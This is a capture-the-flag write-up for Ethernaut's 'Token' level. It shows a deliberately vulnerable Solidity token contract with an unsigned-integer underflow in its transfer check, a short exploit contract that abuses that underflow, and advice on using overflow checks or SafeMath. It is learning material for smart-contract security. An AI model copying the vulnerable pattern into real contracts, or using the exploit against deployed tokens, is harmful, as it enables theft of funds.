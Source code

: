 ![](https://ethernaut.openzeppelin.com/imgs/BigLevel5.svg)

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

  Things that might help:

- What is an odometer?

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

## Solution
``` Solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

interface tmp {
	function transfer(address _to, uint _value) external returns(bool);
}

contract Token {
	address init = 0xc42370b90093429C206E21FD482C3185ef85E7a7;
	address to = 0x095454F216EC9485da86D49aDffAcFD0Fa3e5BE5;
	function solution() external {
		bool ttt = tmp(init).transfer(to, 20);
	}
}
```

___
Overflows are very common in solidity and must be checked for with control statements such as:

```
if(a + c > a) {
  a = a + c;
}
```

An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

```
a = a.add(c);
```

If there is an overflow, the code will revert.